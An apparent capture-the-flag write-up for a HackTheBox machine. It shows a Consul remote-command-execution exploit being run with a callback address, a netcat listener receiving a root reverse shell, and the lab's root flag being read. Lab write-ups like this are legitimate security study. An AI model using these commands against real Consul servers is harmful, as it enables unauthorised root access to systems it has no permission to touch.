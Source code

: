 
# 🚨 Found Vulnerability: Consul v1.19.2 RCE

**Exploit details:**

* **EDB ID:** 51117
* **Author:** GatoGamer1155
* **Type:** Remote Command Execution
* **Date:** 2023-03-28

*Consul versions <= v1.19.2 are vulnerable to this RCE.*

---

# ⚔️ Running the Exploit

```bash
┌──(futaba㉿FutabaLab)-[~/Downloads/htb/Heal/priv esc]
└─$ python3 exploit.py 127.0.0.1 8500 10.10.14.31 727 0

[+] Request sent successfully, check your listener
```

Start netcat listener:

```bash
┌──(futaba㉿FutabaLab)-[~/Downloads/htb/Heal/priv esc]
└─$ nc -lvnp 727
listening on [any] 727 ...
connect to [10.10.14.31] from (UNKNOWN) [10.10.11.46] 45866
bash: cannot set terminal process group (56144): Inappropriate ioctl for device
bash: no job control in this shell
root@heal:/# cat /root/root.txt
6c33d025ee42ecf644bafadc0ded7b3e
```

---

# 🎯 Root Flag Captured!

---

# 📝 Final Thoughts

Holy shit, this took way too long but we got root! Thanks for reading y’all! 🚀🔥

---
